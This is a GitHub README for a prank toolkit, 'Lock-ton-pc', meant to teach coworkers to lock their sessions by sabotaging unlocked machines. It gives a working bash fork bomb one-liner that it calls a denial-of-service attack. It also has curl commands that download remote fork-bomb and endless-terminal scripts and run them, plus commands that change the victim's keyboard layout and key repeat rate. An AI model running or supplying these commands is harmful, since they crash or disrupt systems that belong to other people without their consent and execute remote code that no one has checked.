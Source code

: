 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

Niveau de sévérité :

- 💚 : faible
- 💛 : moyen
- ❤️ : fort

## Forkbomb

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh > forkbomb.sh
chmod +x forkbomb.sh
./forkbomb.sh
```

or excute on a terminal :

```
:(){ :|:& };:

```

## Terminal Monster 💚

Opens terminal at infinity. [work with gnome-terminal]

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/Terminal-Monster.sh > Terminal-Monster.sh
chmod +x Terminal-Monster.sh
./Terminal-Monster.sh
```

## Bépo cancer

Change your keyboard to bépo keyboard.

```
setxkbmap fr bepo
```
or :
```
 loadkeys fr-bepo
```

## Sanic Keyboard

Gotta go fast

```
xset r rate 1 220
```
